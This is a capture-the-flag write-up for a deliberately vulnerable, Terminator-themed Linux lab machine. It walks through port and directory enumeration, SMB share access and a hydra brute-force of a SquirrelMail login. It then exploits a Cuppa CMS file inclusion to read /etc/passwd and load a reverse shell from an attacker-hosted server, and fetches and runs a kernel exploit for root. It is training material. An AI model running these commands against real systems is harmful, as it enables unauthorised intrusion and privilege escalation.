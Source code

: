 #Linux #SMB #RFI

skynet: A vulnerable Terminator themed Linux machine


NMAP Scan

```sh
  nmap -sV -sC -p- 10.10.14.219
  ```
* To see the versions of the services running (-sV)
* To perform a script scan using the default set of scripts (-sC)
* To scan all ports from 1 through 65535 (-p-)

OPEN PORTS

* 22/tcp  open  ssh
* 80/tcp  open  http
* 110/tcp open  pop3
* 139/tcp open  netbios-ssn
* 143/tcp open  imap
* 445/tcp open  microsoft-ds (SMB)

We start with Port 80/tcp. The HTML code does not shown anything interesting, the buttons do not work.  

![image](https://user-images.githubusercontent.com/99097743/170730299-698d3ae3-81c2-48dc-89db-eca62bddbfa1.png)

![image](https://user-images.githubusercontent.com/99097743/170730467-87b64da3-0597-40fd-8b33-55fa10cc4027.png)

Let's move on the 'hidden" directories, Gobuster can help us locate them:

```sh
gobuster dir -u=http://10.10.14.219 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

![image](https://user-images.githubusercontent.com/99097743/170731438-021c0087-aea6-46a2-8c6a-3cb0c93ba632.png)

This analysis takes a while. The following directories were listed after the first few minutes:

* /admin (Status 301)
* /css (Status 301)
* /js (Status 301)
* /config (Status 301)
* /ai (Satus 301)
* /squirrelmail (Status 301) -- Check this out!
* /server-status

![image](https://user-images.githubusercontent.com/99097743/170733365-d1597c75-3cac-4cb0-a7b8-0e3402861fd6.png)

**Searchsploit** suggests that there is no vulnerability documented for **SquirrelMail version 1.4.23**

![image](https://user-images.githubusercontent.com/99097743/170743722-89617c7d-6878-4ec2-b530-1676178865ba.png)

OK, Let's switch to Port 445/tcp - SMB server. We can try the **enum4linux** for enumerating information.


```sh
  enum4linux -a 10.10.14.219
  ```
* To do all simple enumerations (-a)

There are interesting results such as the known usernames:

![image](https://user-images.githubusercontent.com/99097743/170734669-57ec1e84-403f-4464-a5a9-6c62c66ebe0b.png)


Here are the sharenames:

![image](https://user-images.githubusercontent.com/99097743/170734874-50cb0cc9-7a02-484e-a69e-1e9aa92a5772.png)


We can use the **smbclient** to enter the anonymous share.


```sh
  smbclient '\\10.10.48.162\anonymous'
  
  # If you need to enter share with a username
  smbclient -U milesdyson '\\10.10.246.55\milesdyson'
  
  ```
  
 We captured a number of log files -- one of which includes a password list for the email account: **milesdyson**. 
 
 Let's use **hydra** for brute-forcing the email account 
 
 ```sh
 hydra -l milesdyson -P log1.txt 10.10.48.162 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:F=incorrect" -V -F -u
```
![image](https://user-images.githubusercontent.com/99097743/170764972-17fd4f81-db5a-40c1-862f-6014aa37ce7c.png)

We now have access to the email account!

![image](https://user-images.githubusercontent.com/99097743/170765416-03b102ff-c975-4637-a994-d061991061c4.png)

There is a Samba Password Reset email providing a new password. We can use the credentials to login the SMB share and see that there is a document titled **important.txt**. Here, it reveals an 'hidden directory'. Gobuster suggests that there is another hidden directory as **/administrator**, please see the figure below. 

![image](https://user-images.githubusercontent.com/99097743/170796322-835a1ab6-695b-442d-b8d6-5b48d7cfc906.png)

Now, let's go to **searchsploit** and search if there is any vulnerability documented for Cuppa CMS:

![image](https://user-images.githubusercontent.com/99097743/170797721-4e0caa91-3458-4107-b093-7957aedb4788.png)


```sh
  searchsploit -m php/webapps/25971.txt
  #VULNERABILITY: PHP CODE INJECTION
  #An attacker might include local or remote PHP files or read non-PHP files with this vulnerability. User tainted data is used when creating the file name that will be included into the current file. PHP code in this file will be evaluated, non-PHP code will be embedded to the output. This vulnerability can lead to full server compromise.
  
  # We basically include the following link:
  /alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
  
  so the full URL becomes:
  curl http://10.10.74.120/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

  ```

Now, we can work on the reverse shell:

STEP 1: Generate the Reverse Shell and save it on the local host (Here, it is called RS.php)

![image](https://user-images.githubusercontent.com/99097743/170798516-8239f698-5ea1-4fb9-9d05-7ad32868babe.png)


STEP 2: Open up an HTTP server to transfer the payload to the target machine

```sh
  sudo python3 -m http.server 80
  ```
  
STEP 3: Turn on the listener
```sh
sudo nc -lvnp 87
 ```

STEP 4: Modify the PHP Injection URL:

```sh
curl  http://10.10.74.120/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.18.123.93:80/RS.php
  ```
  
STEP 5: Upload the PHP file from the localhost using the HTTP server and invoke the listener

Niceeee!! it works: 


This picture gives an overall summary of the steps followed:

![Screenshot 2022-05-27 191059](https://user-images.githubusercontent.com/99097743/170802509-703b2ac1-1a5c-4edc-a61e-c0b925793b0f.png)

Next step is stabilizing the shell!

```sh
python3 -c 'import pty;pty.spawn("/bin/bash");'
CTRL+Z
stty raw -echo
fg
export TERM=xterm
```

**Privilege Escalation**

Here, I followed the procedure explained in the following reference: https://ratiros01.medium.com/tryhackme-skynet-bdce0537fe7d

Step 1: Find kernel version

```sh
unama -a
 ```
![image](https://user-images.githubusercontent.com/99097743/170807309-ab99c440-a476-46af-87e8-6663f2fc82d5.png)

Step 2: Search for kernel exploits

![image](https://user-images.githubusercontent.com/99097743/170807403-c0b55136-2857-4e10-bdba-22d2bf56802c.png)


```sh
searchsploit linux kernel 4.8.0

searchsploit -m linux/local/43418.c
# File copied to the directory

wget http://10.18.123.93/43418.c
# Transfered to the target machine

#Commands to execute
gcc pwn.c -o pwn
./pwn

```

![image](https://user-images.githubusercontent.com/99097743/170808147-1f097557-f1ce-4067-a194-b50365d6ccaa.png)
